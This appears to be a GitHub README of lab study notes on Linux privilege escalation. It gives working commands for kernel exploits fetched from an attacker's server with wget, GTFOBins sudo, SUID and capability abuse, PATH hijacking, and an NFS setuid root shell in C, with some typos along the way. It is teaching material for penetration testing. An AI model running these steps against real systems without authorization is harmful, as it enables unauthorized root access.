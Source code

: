 # Linux-Privilege-Escalation
Privilege escalation depends on the target system's setup, including the kernel version, installed applications, and user credentials. There is no single method that works for all cases.
### Introduction

- Privilege escalation depends on the target system’s setup, including the kernel version, installed applications, and user credentials. There is no single method that works for all cases.

### What does "privilege escalation" mean?

- At it's core, Privilege Escalation usually involves going from a lower permission account to a higher permission one.

### Why is it important?

Privilege escalation means gaining higher permissions from a lower-level account.

- Resetting passwords
- Bypassing access controls to compromise protected data
- Editing software configurations
- Enabling persistence
- Changing the privilege of existing (or new) users
- Execute any administrative command

## Privilege Escalation: Kernel Exploits

- first you will know version the kernel from this command (  uname -r )
- when know the version will search about exploit to this by this command ( searchsploit linux kernel 4.15.0  )
- download the exploit by ( searchsploit -m exploit )
- compiler the exploit by (   gcc -o 37292 37292.c -static -D_GNU_SOURCE -pthread -lcap  )
- Transfer the Exploit to the Target System (  python3 -m http.server 8080  )
- Then, use `wget` on the target machine to download the exploit:  (   wget http://<your_ip>:8080/exploit_name.sh   )
- Run the exploit (     ./exploit_name.sh     )
- whoami

## Privilege Escalation: Sudo

- Sudo allows running programs as root. Admins can give specific commands (e.g., Nmap) high privileges to users without full root access, ensuring security while maintaining flexibility.

- Any user can check its current situation related to root privileges using the `sudo -l` command.
- https://gtfobins.github.io/ is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.
- when use sudo -l show the program run by root and search in https://gtfobins.github.io/  about the program

## Privilege Escalation: SUID

- Linux controls user access with permissions (read, write, execute). SUID runs a file as its owner, and SGID runs it with the group's permissions, giving extra access when needed.   (  search about file own s in permission )
- `find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.
- when found file search about it in the https://gtfobins.github.io/
- ex : base64   `LFILE=file_to_read
./base64 "$LFILE" | base64 --decode`

## Privilege Escalation: Capabilities

- System administrators can use **Capabilities** to give specific privileges to a process or binary without granting full root access.  For example, if a SOC analyst needs to use a tool that requires opening network connections, a regular user cannot do it. without give the user full privileges, the admin can assign the required **Capability** to the tool. This allows the tool to work without needing root access.
- We can use the `getcap` tool to list enabled capabilities.  (   getcap -r / 2>/dev/null  )
- if found cap_setuid+ep  search about the program in https://gtfobins.github.io/
- ./view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'   you must sure the version of python in the machine

## Privilege Escalation: Cron Jobs

- Cron Jobs are used to run scripts or executables at specific times and operate with the privileges of their owner. If there is a cron job running as root and we can modify the script it executes, our script will run with root privileges.
- Any user can read the file keeping system-wide cron jobs under /etc/crontab
- when found file , The file should look like this;
    
    ![2025-02-19 17_01_00-kali-linux-2024.3-vmware-amd64 - VMware Workstation.png](attachment:5eef8dab-0d48-452e-9719-17cad5a45ac5:2025-02-19_17_01_00-kali-linux-2024.3-vmware-amd64_-_VMware_Workstation.png)
    
- We will now run a listener on our attacking machine to receive the incoming connection. ( nc -nvlp 7777 )

## Privilege Escalation: PATH

- In Linux, the **PATH** variable tells the system where to look for programs when you run a command.
- If you run a command **without a full path**, Linux searches for it in the folders listed in **PATH**.
- If there is a **folder you can edit** inside **PATH**, you can place a fake program with the same name as a real one. When the system runs it, your script will execute instead of the real program.
    - echo $PATH
    - find / -perm -u=s -type f 2>/dev/null   to search about file contain SUID
    - add /tmp to $PATH is the path can i write in   add by (  export PATH=/tmp:$PATH )
    - add the file contain /bin/bash in the same name file in the system (  vim /tmb/thm   or    echo “/bin/bash” > thm    )
    - move the file to /tmb
    - run the file
    
    ## Privilege Escalation: NFS
    

- NFS (Network File Sharing) is a file sharing system between different devices in a network. and when use the ( cat /etc/exports )  and found no_root_squash  ( this vulnerability ) that’s main if i make any command in my machine will work in the victim machine as root
- mount -o rw 10.10.74.23:/tmp /mnt/11
    
    
    | `mount` | Linux command to attach a filesystem |
    | --- | --- |
    | `-o rw` | Mount the filesystem with **read & write** permissions |
    | `10.10.74.23:/tmp` | The NFS shared directory on the **remote machine** (`10.10.74.23`) |
    | `/mnt/11` | The **local mount point** where the remote directory will appear |
- now any thing happen in my machine will happen in victim
- now i will make a reverse shell by ( vim nfs )  ((((((((((((((((((((
    
    #include <unistd.h>  // For setuid() and setgid()
    #include <stdlib.h>  // For system()
    
    int main() {
    setuid(0);  // Set user ID to root
    setgid(0);  // Set group ID to root
    system("/bin/bash -p");  // Spawn a shell with preserved privileges
    return 0;
    }
    

))))))))))))))))))))))))))

- gcc -o nfs nfs.c -static -D_GNU_SOURCE -pthread -lcap
- ./nfs
